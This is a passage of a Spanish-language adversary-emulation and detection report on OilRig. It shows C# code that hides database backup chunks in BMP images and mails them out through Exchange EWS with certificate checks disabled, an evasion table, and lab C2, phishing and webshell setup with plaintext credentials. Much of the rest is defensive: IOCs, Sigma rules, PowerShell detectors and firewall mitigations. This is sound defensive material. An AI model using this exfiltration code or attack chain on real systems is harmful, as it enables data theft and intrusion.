        string tempFile = $"guest_chunk{chunkNumber}.bmp";
        File.WriteAllBytes(tempFile, stegoImage);

        // Adjuntar imagen esteganográfica
        message.Attachments.AddFileAttachment(Path.GetFileName(tempFile), tempFile);

        // Enviar y guardar copia en Sent Items
        // Esto deja evidencia forense en el buzón del remitente
        message.SendAndSaveCopy();

        // Limpiar archivo temporal
        File.Delete(tempFile);

    } catch (Exception ex) {
        Console.WriteLine($"Error sending chunk {chunkNumber}: {ex.Message}");
    }
}
```

**5. Setup de Conexión EWS:**

```csharp
static ExchangeService SetupEWSConnection(string email, string password, string server) {
    // Crear servicio EWS
    ExchangeService service = new ExchangeService(ExchangeVersion.Exchange2013_SP1);

    // Autenticación
    service.Credentials = new WebCredentials(email, password);

    // URL del servidor Exchange
    service.Url = new Uri($"https://{server}/EWS/Exchange.asmx");

    // Deshabilitar verificación de certificado SSL (común en entornos internos)
    ServicePointManager.ServerCertificateValidationCallback =
        ((sender, certificate, chain, sslPolicyErrors) => true);

    return service;
}
```

##### **Ventajas Tácticas de RDAT**

**1. Evasión de Controles de Seguridad:**

| Control de Seguridad | Evasión de RDAT |
|---------------------|-----------------|
| **DLP (Data Loss Prevention)** | Datos ocultos en imágenes BMP; DLP no detecta contenido sensible |
| **Email Gateway Scanning** | Adjuntos parecen imágenes legítimas; pasan inspección superficial |
| **Egress Filtering** | Tráfico interno (SQL server → Exchange); no sale a Internet |
| **Network IDS** | Protocolo legítimo (EWS/HTTPS); no hay patrón malicioso obvio |
| **Firewall** | No requiere abrir puertos adicionales; usa Exchange existente |

**2. Persistencia de Datos:**

```
Ubicaciones donde datos exfiltrados persisten:

1. Sent Items del remitente (gosta@boom.box)
   └─> Permite recuperación forense

2. Inbox del destinatario (sistan@shirinfarhad.com)
   └─> Controlado por atacante

3. Exchange Database (EDB)
   └─> Backups pueden contener datos exfiltrados

4. Email en tránsito (si dominio externo)
   └─> Logs de mail relay

5. Archive/Journal mailboxes (si configurados)
   └─> Políticas de retención pueden preservar evidencia
```

##### **Indicadores de Compromiso**

**Archivo:**
```
Nombres conocidos:
- RDAT.exe (nombre original)
- Nt.dat (staging en Paso 8)
- VMware.exe (renamed en Paso 10)

Ubicaciones:
- C:\Windows\Temp\Nt.dat
- C:\ProgramData\VMware\VMware.exe

Tamaño: ~50-100 KB (.NET assembly)

Dependencias:
- Microsoft.Exchange.WebServices.dll (EWS Managed API)
- guest.bmp (plantilla para esteganografía)
```

**Comportamiento:**

```
Process indicators:
- Nombre: VMware.exe
- Parent: cmd.exe (ejecutado desde PsExec session)
- Command line: VMware.exe --path="..." --to="..." --from="..." ...
- Working directory: C:\Program Files\Microsoft SQL Server\...\Backup\

Network:
- Destination: 10.1.0.6:443 (Exchange server)
- Protocol: HTTPS (EWS API)
- Pattern: Múltiples conexiones HTTPS en corto período
- Volume: Alto (50MB de datos exfiltrados)

File system:
- Reads: sitedata_db.bak
- Creates: guest_chunk0.bmp, guest_chunk1.bmp, ... (temporales, luego eliminados)
```

**Email Patterns:**

```
Exchange logs indicadores:
- Sender: gosta@boom.box
- Recipient: sistan@shirinfarhad.com (dominio externo)
- Subject pattern: Document_[DATE]_[NUMBER]
- Attachments: guest_chunkN.bmp (todos ~200 KB)
- Timeframe: 262 emails enviados en ~10-30 minutos
- Total volume: ~50 MB

EWS API logs:
- Operation: SendAndSaveCopy
- User: gosta@boom.box
- Client: EWSClient (User-Agent)
- Rate: Alto (múltiples llamadas por minuto)
```

##### **Detección de RDAT**

**1. Behavioral Detection:**

```powershell
# Detectar envío masivo de emails con adjuntos
$startTime = (Get-Date).AddHours(-1)

$massEmailSending = Get-MessageTrackingLog -Start $startTime -ResultSize Unlimited |
    Where-Object {
        $_.EventId -eq 'SEND' -and
        $_.TotalBytes -gt 100000  # Emails con adjuntos grandes
    } |
    Group-Object SenderAddress |
    Where-Object { $_.Count -gt 50 }  # Más de 50 emails en 1 hora

if ($massEmailSending) {
    Write-Host "[ALERT] Possible RDAT exfiltration detected!" -ForegroundColor Red

    foreach ($sender in $massEmailSending) {
        Write-Host "Sender: $($sender.Name)"
        Write-Host "Email count: $($sender.Count)"
        Write-Host "Recipients: $(($sender.Group.Recipients | Select-Object -Unique) -join ', ')"

        # Verificar si emails tienen adjuntos BMP
        $bmpAttachments = $sender.Group | Where-Object {
            $_.MessageSubject -like '*.bmp*' -or
            $_.MessageInfo -like '*attachment*'
        }

        if ($bmpAttachments.Count -gt 10) {
            Write-Host "[!] Multiple BMP attachments detected - likely RDAT" -ForegroundColor Red
        }
    }
}
```

**2. Análisis de Archivos Esteganográficos:**

```python
import struct

def detect_steganographic_bmp(file_path):
    """
    Detecta datos ocultos en archivos BMP tipo RDAT
    """
    with open(file_path, 'rb') as f:
        # Leer header BMP
        header = f.read(54)

        # Parsear BMP header
        if header[0:2] != b'BM':
            print(f"{file_path}: Not a valid BMP file")
            return False

        # Obtener tamaño de archivo declarado en header
        file_size = struct.unpack('<I', header[2:6])[0]

        # Obtener offset de pixel data
        pixel_offset = struct.unpack('<I', header[10:14])[0]

        # Obtener tamaño de pixel data
        pixel_size = struct.unpack('<I', header[34:38])[0]

        # Calcular tamaño esperado
        expected_size = pixel_offset + pixel_size

        # Obtener tamaño real del archivo
        f.seek(0, 2)  # Seek to end
        actual_size = f.tell()

        # Si hay bytes extra = steganography
        extra_bytes = actual_size - expected_size

        if extra_bytes > 1000:  # Threshold
            print(f"[ALERT] Steganography detected in {file_path}")
            print(f"Expected size: {expected_size} bytes")
            print(f"Actual size: {actual_size} bytes")
            print(f"Hidden data: {extra_bytes} bytes ({extra_bytes/1024:.2f} KB)")

            # Extraer datos ocultos
            f.seek(expected_size)
            hidden_data = f.read()

            output_file = file_path + ".extracted"
            with open(output_file, 'wb') as out:
                out.write(hidden_data)

            print(f"Hidden data extracted to: {output_file}")
            return True
        else:
            print(f"{file_path}: No hidden data detected")
            return False

# Uso
detect_steganographic_bmp("guest_chunk0.bmp")
```

**3. Sigma Rule:**

```yaml
title: RDAT-like Exfiltration via EWS
status: experimental
description: Detecta patrón de exfiltración similar a RDAT usando EWS API
logsource:
    product: exchange
    service: ews
detection:
    selection:
        Action: 'SendAndSaveCopy'
        AttachmentCount: '>0'
    timeframe: 30m
    condition: selection | count(UserPrincipalName) > 100
falsepositives:
    - Legitimate bulk email sending (newsletters, notifications)
    - Automated business processes
level: high
tags:
    - attack.exfiltration
    - attack.t1048.003
    - attack.t1027.003
```

##### **Mitigaciones**

**Prevención:**

1. **Restringir EWS API:**
   ```powershell
   # Deshabilitar EWS para usuarios normales
   Get-Mailbox | Where-Object { $_.RecipientTypeDetails -eq 'UserMailbox' } |
       Set-CASMailbox -EwsEnabled $false

   # Habilitar solo para cuentas de servicio autorizadas
   Set-CASMailbox -Identity "ServiceAccount@domain.com" -EwsEnabled $true
   ```

2. **Rate Limiting:**
   ```powershell
   # Throttling policy para prevenir exfiltración masiva
   New-ThrottlingPolicy -Name "AntiExfiltration" `
       -EwsMaxConcurrency 2 `
       -MessageRateLimit 30 `
       -RecipientRateLimit 50 `
       -EwsMaxSubscriptions 5

   # Aplicar a todos los usuarios
   Get-Mailbox | Set-ThrottlingPolicyAssociation -ThrottlingPolicy "AntiExfiltration"
   ```

3. **Content Filtering:**
   - Implementar DLP que analice tamaño real vs declarado de archivos BMP
   - Alertar sobre emails con múltiples adjuntos BMP grandes
   - Bloquear o retener emails sospechosos para análisis

4. **Network Segmentation:**
   - SQL servers no deberían poder comunicarse con Exchange
   - Implementar firewall rules restrictivas

**Detección:**

1. **SIEM Correlation:**
   ```
   Rule: RDAT Exfiltration Pattern

   IF [Process execution: VMware.exe from non-standard location]
     AND [File access: *.bak file read]
     AND [Network connection: To Exchange server]
     AND [High volume emails sent: >50 in 30 minutes]
     AND [Email attachments: Multiple .bmp files]
   THEN Alert: Critical - RDAT Exfiltration Detected
   ```

2. **Proactive Monitoring:**
   ```powershell
   # Script de monitoreo continuo
   while ($true) {
       $recentActivity = Get-MessageTrackingLog -Start (Get-Date).AddMinutes(-5) `
           -EventId "SEND" -ResultSize Unlimited

       $bulkSenders = $recentActivity |
           Group-Object SenderAddress |
           Where-Object { $_.Count -gt 10 }

       if ($bulkSenders) {
           Send-Alert -To "soc@company.com" `
               -Subject "Possible Exfiltration Detected" `
               -Body "User $($bulkSenders[0].Name) sent $($bulkSenders[0].Count) emails in last 5 minutes"
       }

       Start-Sleep -Seconds 300  # Check every 5 minutes
   }
   ```

---

#### **Resumen del Análisis de Malware**

**Sofisticación Técnica:**
- Todas las herramientas son custom-developed para OilRig
- Diseñadas para evadir detecciones específicas (AV, EDR, DLP)
- Uso de técnicas avanzadas (esteganografía, cifrado, API abuse)

**Características Comunes:**
- Naming/masquerading para aparentar software legítimo
- Uso de Windows APIs nativas y protocolos estándares
- Minimal footprint y comportamiento low-and-slow
- Capacidad de operar con privilegios de usuario estándar (excepto webshell)

**Vectores de Detección:**
- Behavioral analytics (proceso padre/hijo anómalos)
- Network traffic analysis (patrones de beaconing, exfiltración)
- File integrity monitoring (archivos nuevos en ubicaciones sospechosas)
- API monitoring (acceso a credenciales, ejecución de comandos)

[Las secciones 3.2 y 3.3 se desarrollarán en el siguiente mensaje]

---

### **3.2 Infraestructura del Ataque**

Esta sección detalla la arquitectura completa de la infraestructura utilizada para la emulación del ataque de OilRig, incluyendo componentes ofensivos (red team) y defensivos (blue team).

---

#### **Diagrama de Red General**

```
Internet
    │
    │
┌───▼──────────────────────────────────────────────────────────────────┐
│ External Network (192.168.0.0/24)                                   │
│                                                                      │
│  ┌────────────────────┐         ┌────────────────────┐             │
│  │ Linux Attack       │         │ Mail and File      │             │
│  │ Platform           │         │ Server             │             │
│  │ (Kali Linux)       │         │ (Kali Linux)       │             │
│  │                    │         │                    │             │
│  │ 192.168.0.4        │         │ 192.168.0.5        │             │
│  │                    │         │                    │             │
│  │ - SideTwist C2     │         │ - Apache Web Server│             │
│  │ - evalsC2client.py │         │ - Postfix Mail     │             │
│  │ - Payloads staging │         │ - Phishing content │             │
│  └────────────────────┘         └────────────────────┘             │
│                                                                      │
└──────────────────────────────────────────────────────────────────────┘
                            │
                            │ Network boundary
                            │
┌───────────────────────────▼───────────────────────────────────────────┐
│ Internal Corporate Network (BOOMBOX Domain - 10.1.0.0/24)           │
│                                                                       │
│  ┌───────────────────┐  ┌────────────────────┐  ┌──────────────────┐│
│  │ Domain Controller │  │ Exchange Admin     │  │ Exchange Server  ││
│  │ DISKJOCKEY        │  │ Workstation        │  │ WATERFALLS       ││
│  │                   │  │ THEBLOCK           │  │                  ││
│  │ 10.1.0.4          │  │                    │  │ 10.1.0.6         ││
│  │                   │  │ 10.1.0.5           │  │                  ││
│  │ - Active Directory│  │                    │  │ - Exchange Server││
│  │ - DNS Server      │  │ - User: gosta      │  │ - IIS Web Server ││
│  │ - Domain Services │  │ - MS Office        │  │ - EWS API        ││
│  │                   │  │ - OWA Client       │  │ - OWA/EAC        ││
│  │ Users/Groups:     │  │                    │  │ - MSSQL Client   ││
│  │  - gosta          │  │ Initial compromise │  │                  ││
│  │  - tous           │  │ target (Step 1)    │  │ Webshell target  ││
│  │  - mariam         │  │                    │  │ (Step 4-7)       ││
│  │  - shiroyeh       │  │                    │  │                  ││
│  │  - shiroyeh_admin │  │                    │  │                  ││
│  └───────────────────┘  └────────────────────┘  └──────────────────┘│
│                                                                       │
│                                  ┌────────────────────────────────┐  │
│                                  │ SQL Server                     │  │
│                                  │ ENDOFROAD                      │  │
│                                  │                                │  │
│                                  │ 10.1.0.7                       │  │
│                                  │                                │  │
│                                  │ - MSSQL Server 2019            │  │
│                                  │ - Database: sitedata           │  │
│                                  │ - Backup files: sitedata_db.bak│  │
│                                  │ - SQL Admins group access      │  │
│                                  │                                │  │
│                                  │ Exfiltration target            │  │
│                                  │ (Steps 8-10)                   │  │
│                                  └────────────────────────────────┘  │
│                                                                       │
└───────────────────────────────────────────────────────────────────────┘
```

---

#### **Componentes de la Infraestructura de Ataque**

##### **1. Linux Attack Platform (192.168.0.4)**

**Propósito:** Servidor principal de Command & Control y staging de payloads.

**Sistema Operativo:** Kali Linux 2019.2

**Componentes instalados:**
```bash
# Control Server para SideTwist
/opt/oilrig/Resources/control_server/
├── controlServer (ejecutable principal)
├── config/
│   └── handler_config.yml (configuración de handlers)
├── files/ (archivos exfiltrados)
│   ├── fsociety.dat (credenciales de VALUEVAULT)
│   └── 01.txt (output de Mimikatz)
└── logs/

# Payloads
/opt/oilrig/Resources/payloads/
├── SideTwist/
│   ├── b.exe (VALUEVAULT)
│   ├── contact.aspx (TwoFace webshell)
│   └── plink.exe (SSH tunneling tool)
└── TwoFace/
    ├── m64.exe (Mimikatz)
    ├── RDAT.exe
    └── PsExec.exe

# Cliente C2
evalsC2client.py (interfaz para enviar comandos a implantes)
```

**Software adicional:**
- FreeRDP (para conectarse vía RDP a sistemas Windows)
- SSH server (para túneles reversos con Plink)
- Python 3 con librerías para control server

**Configuración del handler SideTwist:**
```yaml
sidetwist:
  host: 192.168.0.4
  port: 443
  enabled: true
  encryption: xor
  key: 0x1C
```

**Servicios corriendo:**
- Control Server (puerto 443) - SideTwist C2
- SSH Server (puerto 22) - Túneles reversos

---

##### **2. Mail and File Server (192.168.0.5)**

**Propósito:** Servidor de phishing y hosting de payloads.

**Sistema Operativo:** Kali Linux 2019.2

**Componentes instalados:**

**Apache Web Server:**
```bash
# Configuración en /var/www/html/
/var/www/html/
└── Marketing_Materials.zip (dropper de SideTwist)
    └── Password: !M@rk3ting!
    └── Contains: GGMS Overview.doc (documento malicioso)
```

**Postfix Mail Server:**
```bash
# Configuración para envío de emails de phishing
/etc/postfix/main.cf
- myhostname = ganjavigms.com
- myorigin = ganjavigms.com
- relay_domains = boom.box

# Email de phishing
From: team@ganjavigms.com
To: gosta@boom.box
Subject: GGMS Marketing Materials
Body: [Enlace a http://192.168.0.5/Marketing_Materials.zip]
```

**Scripts de setup:**
- `install-configure-postfix.sh` - Configuración automática de Postfix
- `setup-apache-fileserver.sh` - Setup de Apache para serving files

---

#### **Componentes de la Infraestructura Víctima**

##### **3. Domain Controller - DISKJOCKEY (10.1.0.4)**

**Sistema Operativo:** Windows Server 2019 (Build 17763)

**Rol:** Active Directory Domain Services, DNS Server

**Dominio:** BOOMBOX.local

**Cuentas de usuario creadas:**

| Username | Password | Groups | Notas |
|----------|----------|--------|-------|
| tous | [Contraseña fuerte] | EWS Admins, SQL Admins, Domain Users | Cuenta privilegiada objetivo |
| gosta | d0ntGoCH4$ingW8trfalls | EWS Admins, Domain Users | Usuario comprometido inicialmente |
| mariam | [Contraseña] | Domain Users | Usuario estándar |
| shiroyeh | [Contraseña] | Domain Users | Usuario estándar |
| shiroyeh_admin | [Contraseña fuerte] | Domain Admins | Cuenta admin del dominio |

**Grupos de seguridad personalizados:**
- **EWS Admins:** Permisos administrativos en Exchange Server
- **SQL Admins:** Permisos administrativos en SQL Server

**Configuraciones de seguridad:**
- Windows Defender: Deshabilitado (para propósitos de emulación)
- Windows Updates: Deshabilitadas
- Auditing: Habilitado (para generar logs forenses)

**DNS Records añadidos:**
```
ganjavigms.com      A    192.168.0.5
shirinfarhad.com    A    [External IP - adversary controlled]
```

---

##### **4. Exchange Admin Workstation - THEBLOCK (10.1.0.5)**

**Sistema Operativo:** Windows 10 (Build 17763)

**Rol:** Workstation de administrador de Exchange

**Usuario principal:** BOOMBOX\gosta

**Software instalado:**
- Microsoft Office (con macros habilitadas)
- Microsoft Edge / Internet Explorer
- Outlook Web Access (OWA) client
- Tools administrativos de Windows

**Configuraciones:**
- Windows Defender: Deshabilitado
- Macro security: Habilitadas con prompts
- AutoRun: Habilitado

**Credenciales guardadas en Windows Vault:**
```
Resource: http://intranet.boom.box
Username: gosta@boom.box
Password: d0ntGoCH4$ingW8trfalls

Resource: \\fileserver\share
Username: BOOMBOX\gosta
Password: d0ntGoCH4$ingW8trfalls
```

**Tarea programada maliciosa (Post-Compromiso):**
```xml
<Task>
  <RegistrationInfo>
    <Description>System Failure Reporter</Description>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT5M</Interval>
      </Repetition>
    </TimeTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>C:\Users\gosta\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe</Command>
    </Exec>
  </Actions>
</Task>
```

---

##### **5. Exchange Server - WATERFALLS (10.1.0.6)**

**Sistema Operativo:** Windows Server 2019 (Build 17763)

**Roles instalados:**
- Exchange Server 2019
- IIS Web Server
- MSSQL Client Tools

**Servicios de Exchange:**
- OWA (Outlook Web Access)
- EAC (Exchange Admin Center)
- EWS (Exchange Web Services) API
- MAPI/HTTP
- SMTP/POP3/IMAP

**Configuración de Exchange:**
```powershell
# EWS Admins group tiene permisos Full Access
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members "EWS Admins"

# Usuarios con EWS habilitado
Get-Mailbox | Set-CASMailbox -EwsEnabled $true
```

**Tarea programada (SQL Connection):**
```batch
# C:\ProgramData\sql_connection.bat
sqlcmd -S 10.1.0.7 -U tous -P [password] -Q "SELECT @@VERSION"
```

**Configuración de IIS:**
```
Application Pools:
- MSExchangeOWAAppPool (Identity: ApplicationPoolIdentity)
- MSExchangeServicesAppPool (Identity: SYSTEM)

Virtual Directories:
- /owa (OWA interface)
- /ecp (Exchange Control Panel)
- /ews (Exchange Web Services)
  └── Malicious file: contact.aspx (WebShell - added during attack)
```

**Firewall rules:**
```powershell
# Permitir conexiones desde THEBLOCK
New-NetFirewallRule -DisplayName "Allow RDP from Admin Workstation" `
    -Direction Inbound -Protocol TCP -LocalPort 3389 `
    -RemoteAddress 10.1.0.5 -Action Allow

# Permitir conexiones SQL
New-NetFirewallRule -DisplayName "Allow MSSQL Client" `
    -Direction Outbound -Protocol TCP -RemotePort 1433 `
    -RemoteAddress 10.1.0.7 -Action Allow
```

---

##### **6. SQL Server - ENDOFROAD (10.1.0.7)**

**Sistema Operativo:** Windows Server 2019 (Build 17763)

**Rol:** Microsoft SQL Server 2019 (MSSQL15.MSSQLSERVER)

**Base de datos:**
```sql
-- Database name: sitedata
-- Owner: BOOMBOX\tous
-- Data file: C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\sitedata.mdf
-- Log file: C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\sitedata_log.ldf

-- Tables:
USE sitedata;
GO

-- Tabla importada de minfac.csv con datos sensibles
SELECT * FROM manufacturing_data;
-- (Contains: facility locations, production data, employee information)
```

**Backups:**
```
C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\
├── sitedata_db.bak (52 MB) - Target for exfiltration
└── sitedata_db_old.bak (48 MB)
```

**Seguridad:**
```sql
-- SQL Admins group con permisos
USE master;
GO
EXEC sp_addsrvrolemember @loginame = 'BOOMBOX\SQL Admins', @rolename = 'sysadmin';
GO

-- BOOMBOX\tous es miembro de SQL Admins
```

**Configuración de red:**
```
SQL Server TCP/IP: Enabled
Port: 1433
Remote connections: Enabled
Authentication: Windows Authentication + SQL Server Authentication
```

**Firewall configuration:**
```powershell
# Permitir conexiones desde WATERFALLS
New-NetFirewallRule -DisplayName "Allow MSSQL from Exchange" `
    -Direction Inbound -Protocol TCP -LocalPort 1433 `
    -RemoteAddress 10.1.0.6 -Action Allow
```

---

#### **Flujo de Comunicaciones del Ataque**

##### **Fase 1: Initial Access**
```
Email Phishing:
192.168.0.5 (Mail Server) ──SMTP──> 10.1.0.6 (Exchange) ──Deliver──> 10.1.0.5 (THEBLOCK/gosta inbox)

Payload Download:
10.1.0.5 (THEBLOCK/gosta) ──HTTP GET──> 192.168.0.5:80 (Apache)
└──> Downloads: Marketing_Materials.zip

C2 Beaconing:
10.1.0.5 (THEBLOCK/SideTwist) ──HTTP POST──> 192.168.0.4:443 (C2 Server)
└──> Frequency: Every 5 minutes
└──> Protocol: HTTP with XOR encryption (key: 0x1C)
```

##### **Fase 2: Lateral Movement to Exchange**
```
WebShell Installation:
192.168.0.4 (C2) ──Command via SideTwist──> 10.1.0.5 (THEBLOCK)
└──> SMB copy: \\10.1.0.6\C$\...\ews\contact.aspx

WebShell Communication:
192.168.0.4 (Attacker) ──HTTPS POST (NTLM auth)──> 10.1.0.6:443 (IIS/TwoFace)
└──> Commands: whoami, ipconfig, mimikatz execution

SSH Tunnel for RDP:
10.1.0.5 (THEBLOCK/plink) ──SSH Reverse Tunnel──> 192.168.0.4:22
└──> Forwards: localhost:13389 -> 10.1.0.6:3389

RDP Access:
192.168.0.4 (Attacker) ──RDP via tunnel──> localhost:13389 ──Tunneled──> 10.1.0.6:3389
```

##### **Fase 3: SQL Server Compromise and Exfiltration**
```
Lateral Movement to SQL:
10.1.0.6 (WATERFALLS/mimikatz PTH) ──SMB (Admin Share)──> 10.1.0.7 (ENDOFROAD)
└──> Copy: Nt.dat via \\10.1.0.7\C$\ProgramData\

PsExec Remote Execution:
10.1.0.6 (WATERFALLS/ps.exe) ──RPC/SMB──> 10.1.0.7:445 (ENDOFROAD)
└──> Creates: PSEXESVC service
└──> Executes: cmd.exe (interactive shell)

Data Exfiltration:
10.1.0.7 (ENDOFROAD/RDAT) ──HTTPS (EWS API)──> 10.1.0.6:443 (Exchange EWS)
└──> SendAndSaveCopy: 262 emails @ ~200KB each
└──> To: sistan@shirinfarhad.com (External - Attacker controlled)
└──> Attachments: guest_chunkN.bmp (steganographic images)
└──> Total data: ~52 MB (sitedata_db.bak)
```

---

#### **Consideraciones de Segmentación de Red**

**Segmentación Recomendada vs Implementada:**

| Conexión | Implementado | Recomendado | Impacto en Ataque |
|----------|--------------|-------------|-------------------|
| THEBLOCK → Internet | Permitido | Proxy obligatorio | Sin impacto (usa mail legítimo) |
| THEBLOCK → WATERFALLS (RDP) | Permitido | Jump box solo | Permite túnel SSH |
| WATERFALLS → ENDOFROAD (SMB) | Permitido | Denegado | Habilita movimiento lateral |
| WATERFALLS → ENDOFROAD (SQL) | Permitido | Permitido | Necesario para función |
| ENDOFROAD → WATERFALLS (EWS) | Permitido | Denegado | Habilita exfiltración vía RDAT |
| External → THEBLOCK | Denegado | Denegado | No relevante |

**Reglas de Firewall que Habrían Prevenido el Ataque:**

```powershell
# Bloquear SMB desde Exchange hacia otros servidores
New-NetFirewallRule -DisplayName "Block SMB from Exchange" `
    -Direction Outbound -Protocol TCP -LocalPort 445 `
    -RemoteAddress 10.1.0.0/24 -Action Block `
    -Profile Domain

# Bloquear conexiones de SQL Server hacia Exchange (excepto respuestas)
New-NetFirewallRule -DisplayName "Block SQL to Exchange Initiated" `
    -Direction Outbound -Protocol TCP `
    -RemoteAddress 10.1.0.6 -RemotePort 443,80 `
    -Action Block -Profile Domain
    # Permitir solo stateful responses

# Restringir RDP solo desde Jump Box autorizado
New-NetFirewallRule -DisplayName "RDP Only from Jump Box" `
    -Direction Inbound -Protocol TCP -LocalPort 3389 `
    -RemoteAddress 10.1.0.100 -Action Allow  # Jump box
New-NetFirewallRule -DisplayName "Block Other RDP" `
    -Direction Inbound -Protocol TCP -LocalPort 3389 `
    -Action Block -Profile Domain
```

---

### **3.3 Ingeniería de Detección**

Esta sección proporciona una guía comprehensiva para detectar las actividades de OilRig mediante múltiples capas de detección, desde network-level hasta endpoint y comportamiento de usuario.

---

#### **Estrategia de Detección en Capas**

```
┌─────────────────────────────────────────────────────────────────┐
│ Capa 1: Network Detection                                      │
│ ────────────────────────────────────────────────────────────── │
│ - Firewall logs                                                │
│ - IDS/IPS signatures                                           │
│ - NetFlow analysis                                             │
│ - DNS query logs                                               │
│ - Proxy logs                                                   │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 2: Perimeter Detection                                    │
│ ────────────────────────────────────────────────────────────── │
│ - Email gateway (phishing detection)                           │
│ - Web application firewall (webshell detection)                │
│ - DLP (data exfiltration prevention)                           │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 3: Host-based Detection                                   │
│ ────────────────────────────────────────────────────────────── │
│ - EDR/EPP (endpoint detection)                                 │
│ - Sysmon (detailed process logging)                            │
│ - Windows Event Logs                                           │
│ - File Integrity Monitoring                                    │
│ - Registry monitoring                                          │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 4: Application-level Detection                            │
│ ────────────────────────────────────────────────────────────── │
│ - IIS logs (webshell activity)                                │
│ - Exchange logs (EWS abuse)                                    │
│ - SQL Server audit logs                                        │
│ - Active Directory audit logs                                  │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 5: Behavioral Analytics                                   │
│ ────────────────────────────────────────────────────────────── │
│ - UEBA (User Entity Behavior Analytics)                        │
│ - Anomaly detection (ML/AI)                                    │
│ - Threat hunting queries                                       │
│ - SIEM correlation rules                                       │
└─────────────────────────────────────────────────────────────────┘
```

---

#### **Matriz de Detección por Fase del Ataque**

| Fase/Paso | Técnica Principal | Fuente de Telemetría | Dificultad | Regla/Query |
|-----------|-------------------|----------------------|------------|-------------|
| **Paso 1: Phishing** | Spearphishing Link | Email Gateway, Proxy Logs | Media | Email content filtering, URL reputation |
| **Paso 1: Macro Execution** | VBA Macros | Process Creation (4688), Sysmon (1) | Baja | Office spawning cmd.exe/powershell |
| **Paso 1: Persistence** | Scheduled Task | Event 4698, Sysmon (1) | Baja | Scheduled task in user AppData |
| **Paso 1: C2 Beacon** | HTTP C2 | Network logs, Firewall | Media | Periodic HTTP beacons, port 443 non-TLS |
| **Paso 2: Discovery** | System Discovery | Process Creation (4688) | Media | Rapid enumeration commands |
| **Paso 3: Credential Dump** | Windows Vault Access | API calls, DLL loads | Media | vaultcli.dll loading, .dat file creation |
| **Paso 4: WebShell** | Server Software Component | File creation, IIS logs | Baja | .aspx file in Exchange directory |
| **Paso 5: Recon via WebShell** | Web Shell Execution | IIS logs, Process tree | Baja | w3wp.exe → cmd.exe |
| **Paso 6: Mimikatz** | LSASS Access | Process access (10), Sysmon (10) | Baja | Non-system process accessing lsass.exe |
| **Paso 7: SSH Tunnel** | Protocol Tunneling | Network connections, Process | Media | plink.exe with tunnel params |
| **Paso 8: Pass-the-Hash** | Use Alternate Auth | Event 4624 (logon type 9) | Media | Logon with NTLM after cred dump |
| **Paso 8: PsExec** | Remote Service Creation | Event 7045, Service logs | Baja | PSEXESVC service creation |
| **Paso 9: SQL Discovery** | File/Directory Discovery | Process Creation, File access | Alta | dir commands to SQL paths |
| **Paso 10: Exfiltration** | Exfil via EWS | Exchange logs, Email tracking | Media | High-volume email sending |
| **Paso 10: Steganography** | Obfuscation: Steganography | File analysis, Email attachments | Alta | Oversized BMP files |
| **Paso 11: Cleanup** | Indicator Removal | Event 4660 (Delete), File deletion | Alta | Mass file deletion pattern |

---

#### **Detecciones Críticas por Prioridad**

##### **Prioridad 1: Detecciones de Alto Impacto**

**1. Detección de Acceso a LSASS (Mimikatz):**

```yaml
title: Critical - LSASS Memory Access
id: 32d0d3e2-e58d-4d41-926b-18b520b2b32d
status: production
description: Detecta acceso a memoria de lsass.exe por proceso no autorizado
logsource:
    product: windows
    category: process_access
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'  # PROCESS_VM_READ
            - '0x1038'  # PROCESS_VM_READ | PROCESS_QUERY_INFORMATION
            - '0x1400'  # PROCESS_QUERY_INFORMATION
            - '0x1fffff' # PROCESS_ALL_ACCESS
    filter_system:
        SourceImage|startswith:
            - 'C:\Windows\System32\'
            - 'C:\Windows\SysWOW64\'
            - 'C:\Program Files\Windows Defender\'
    condition: selection and not filter_system
falsepositives:
    - Legitimate security/monitoring tools
    - Antivirus software
level: critical
tags:
    - attack.credential_access
    - attack.t1003.001
```

**2. Detección de WebShell en Exchange:**

```yaml
title: Critical - WebShell Activity on Exchange Server
id: 8a8b3f23-4c71-4c91-8e1d-99b3d59c5f4e
status: production
description: Detecta ejecución de comandos desde proceso IIS (webshell)
logsource:
    product: windows
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '\w3wp.exe'
            - '\httpd.exe'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\wmic.exe'
    filter:
        CommandLine|contains:
            - 'HealthMailbox'  # Legitimate Exchange health checks
    condition: selection_parent and selection_child and not filter
falsepositives:
    - Legitimate management scripts executed by IIS
level: critical
tags:
    - attack.persistence
    - attack.t1505.003
    - attack.execution
    - attack.t1059
```

**3. Detección de Exfiltración Masiva vía Email:**

```yaml
title: Critical - Mass Email Exfiltration via EWS
id: f9e2e8d5-4a6b-4c8e-9f2d-1a3b5c7e9f11
status: production
description: Detecta envío masivo de emails con adjuntos (possible RDAT)
logsource:
    product: exchange
    service: message_tracking
detection:
    selection:
        EventId: 'SEND'
        TotalBytes: '>100000'
    timeframe: 30m
    condition: selection | count(SenderAddress) by SenderAddress > 50
falsepositives:
    - Legitimate bulk email campaigns
    - Automated notification systems
level: critical
tags:
    - attack.exfiltration
    - attack.t1048.003
    - attack.t1114.002
```

---

##### **Prioridad 2: Detecciones de Movimiento Lateral**

**4. Detección de PsExec:**

```yaml
title: High - PsExec Service Installation
id: 42d36aa1-d9e3-4f44-872f-32d54f87d0a9
status: production
description: Detecta instalación del servicio PSEXESVC
logsource:
    product: windows
    service: system
detection:
    selection_service:
        EventID: 7045
        ServiceName: 'PSEXESVC'
    selection_file:
        EventID: 11  # Sysmon file creation
